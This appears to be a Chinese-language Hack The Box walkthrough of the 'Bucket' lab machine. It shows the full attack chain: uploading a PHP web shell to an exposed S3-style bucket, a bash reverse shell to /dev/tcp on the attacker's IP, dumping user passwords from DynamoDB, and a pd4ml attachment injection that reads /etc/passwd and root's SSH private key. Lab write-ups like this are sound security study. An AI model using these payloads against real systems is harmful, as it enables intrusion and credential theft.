# [HTB] 靶机学习 Bucket-先知社区

> **来源**: https://xz.aliyun.com/news/17998  
> **文章ID**: 17998

---



## 端口扫描

```
nmap -sC -sV  10.10.10.212
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Amazon S3

添加bucket.htb到hosts，访问<http://bucket.htb/> , F12找到一个子域名s3.bucket.htb,也添加到hosts文件



访问<http://s3.bucket.htb/> ,显示{"status": "running"}

在头部找到一些信息  


搜索看看，发现跟Amazon S3有关  


了解一下什么是Amazon S3,是一种对象存储服务，包括桶（bucket）、对象、键等，发现桶跟我们看到的<http://s3.bucket.htb/adserver/images/bug.jpg> 有点像，了解一下什么是访问存储桶，大抵有Path-style requests和Virtual-hosted–style requests两种url



参考官方文档  
<https://docs.aws.amazon.com/AmazonS3/latest/userguide/VirtualHosting.html#path-style-access>

### Path-style requests



例如以下url，amzn-s3-demo-bucket1是桶名(bucket)，puppy.jpg是key  
`https://s3.us-west-2.amazonaws.com/amzn-s3-demo-bucket1/puppy.jpg`

### Virtual-hosted–style requests

amzn-s3-demo-bucket1是bucket名，puppy.jpg是key名，us-west-2是region地区名  
<https://amzn-s3-demo-bucket1.s3.us-west-2.amazonaws.com/puppy.png>

所以，adserver是bucket名  
<http://s3.bucket.htb/adserver/images/bug.jpg>

### 目录扫描

同时尝试目录扫描，扫到了health和shell



  


尝试用amzcli连接

```
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

列出所有bucket桶  
`aws --endpoint-url=http://s3.bucket.htb s3 ls`

还没有配置，去官方文档看看  


<https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html>  
因为没有keyid等等的，先随便设置试试



跟之前想的一样，adserver是bucket  


`aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver`





同时也可以用cp命令上传本地文件



从之前的目录扫描结果，猜测是php环境



上传一个phpinfo试试  
`<?php phpinfo();?>`

`aws --endpoint-url=http://s3.bucket.htb s3 cp abc.php s3://adserver/`





访问`http://bucket.htb/abc.php`，可以解析  


### 反弹shell

构造反弹shell

```
echo "<?php exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.16/6666 0>&1 "'); ?>" > shell.php
```

```
aws --endpoint-url=http://s3.bucket.htb s3 cp shell.php s3://adserver/   
```

访问<http://bucket.htb/shell.php，一开始可能是404，需要等待一段时间>



### 交互式shell

```
python3 -c 'import pty;pty.spawn("bash")'
ctrl+z
stty raw -echo;fg
```



www目录有一个bucket-app目录，但是没有权限

```
www-data@bucket:/var/www/html$ ls ../bucket-app 
ls: cannot open directory '../bucket-app': Permission denied
```

使用getfacl 查看权限，发现joy用户可以读取和执行



## DynamoDB

翻翻home目录，找到一个db.php，出现了新的endpoint-url,结合代码想要连接DynamoDB数据库



找到了`aws dynamodb`相关命令  
<https://awscli.amazonaws.com/v2/documentation/api/latest/reference/dynamodb/index.html>

```
aws --endpoint-url=http://localhost:4566 dynamodb list-tables
```

依然提示要配置

`aws configure`，显示没权限写入目录，换成tmp目录，并修改环境变量home目录，因为默认写到home目录下



```
 mkdir /tmp/f
 export HOME=/tmp/f
 aws configure
```



输入这个命令就乱了，不知道为什么，好在回显正常，有个`users`表

```
aws --endpoint-url=http://localhost:4566 dynamodb list-tables
```



查看内容，得到三对用户密码，我们目的是为了登录`roy`用户去查看那个没权限查看的目录，所以这三个密码尝试看看能不能`ssh`登录`roy`

```
aws --endpoint-url=http://localhost:4566 dynamodb scan --table-name users
```



经过尝试，`n2vM-<_K_Q:.Aa2`可以登录

拿到第一个flag，`3b55b52d69515bd509b3aa744aebde7b`

查看`index.php`文件  
`cat /var/www/bucket-app/index.php`   
大概意思就是post传值等于`get_alerts`，就会连接`DynamoDB`数据库，扫描`alerts`表，然后基于`title`过滤内容，如果`title`字段中包含`Ransomware`关键字，就会把他的data字段写到files文件夹，文件名随机的html文件，`pdfml`是一个将`html`文件转`pdf`的工具，把刚刚生成的`html`转成`pdf`

```
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
    if($_POST["action"]==="get_alerts") {
        date_default_timezone_set('America/New_York');
        $client = new DynamoDbClient([
            'profile' => 'default',
            'region'  => 'us-east-1',
            'version' => 'latest',
            'endpoint' => 'http://localhost:4566'
        ]);

        $iterator = $client->getIterator('Scan', array(
            'TableName' => 'alerts',
            'FilterExpression' => "title = :title",
            'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
        ));

        foreach ($iterator as $item) {
            $name=rand(1,10000).'.html';
            file_put_contents('files/'.$name,$item["data"]);
        }
        passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
    }
}

```



之前查询的时候只有`users`表，没有`alert`表

创建一个alert表，一个主键`title`，一个排序键`data`，都是s字符串类型

```
roy@bucket:~$ aws configure
AWS Access Key ID [None]: abcde
AWS Secret Access Key [None]: abcde
Default region name [None]: us-east-1
Default output format [None]: json
```

参考  
<https://awscli.amazonaws.com/v2/documentation/api/latest/reference/dynamodb/create-table.html>

```
aws --endpoint-url=http://localhost:4566 dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 
```



插入数据

```
aws --endpoint-url=http://localhost:4566 dynamodb put-item \
--table-name alerts \
--item '{"title":{"S":"Ransomware"},"data":{"S":"<html><h1>test</h1></html>"}}'
```



接下来就是看看`apache`的服务是哪个端口了

是8000端口，而且还是`root`用户  
`netstat -lnp`,确实有开放





端口转发一下

`ssh -L 8001:127.0.0.1:8000 roy@10.10.10.212`





`curl http://127.0.0.1:8001/index.php --data 'action=get_alerts'`





## 权限提升

### pd4ml

看看是否能利用`html`的一些性质读取文件  
参考<https://old.pd4ml.com/html.htm>

允许使用`attachment`标签使用外部资源  




### 敏感文件读取

读取`/etc/passwd`

```
aws --endpoint-url=http://localhost:4566 dynamodb put-item \
  --table-name alerts \
  --item "{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='file:///etc/passwd' description='test' icon='Paperclip'/></html>"}}"
```

由于`alerts`表和`file`文件夹的文件经常会被删除，如果执行不成功，就要重新全部从头执行一遍

`curl http://127.0.0.1:8001/index.php --data 'action=get_alerts'`



双击下载附件到桌面打开  


8000进程是由root启动的，尝试访问root目录

```
aws --endpoint-url=http://localhost:4566 dynamodb put-item \
  --table-name alerts \
  --item "{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='file:///root' description='test' icon='Paperclip'/></html>"}}"
```

`curl http://127.0.0.1:8001/index.php --data 'action=get_alerts'`

下载得到



### 读取root私钥

确实可以，那直接读取ssh私钥就可以

```
aws --endpoint-url=http://localhost:4566 dynamodb put-item \
  --table-name alerts \
  --item "{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='file:///root/.ssh/id_rsa' description='test' icon='Paperclip'/></html>"}}"
```



注意私钥的权限

```
chmod 600 id_rsa_1 
ssh -i id_rsa_1 root@10.10.10.212
```

得到第二个flag，`7fdda731a4cfd824a796d00b0e6b5c63`



## 复盘

在之前目录扫描中得到了

<http://s3.bucket.htb/shell/>

参考文档  
<https://docs.aws.amazon.com/AWSJavaScriptSDK/latest/AWS/DynamoDB.html#listTables-property>



列出表，跟使用`aws`命令行效果差不多

```
var params = {
 };
 dynamodb.listTables(params, function(err, data) {
   if (err) console.log(err, err.stack); // an error occurred
   else     console.log(data);           // successful response
   /*
   data = {
    TableNames: [
       "Forum", 
       "ProductCatalog", 
       "Reply", 
       "Thread"
    ]
   }
   */
 });
```


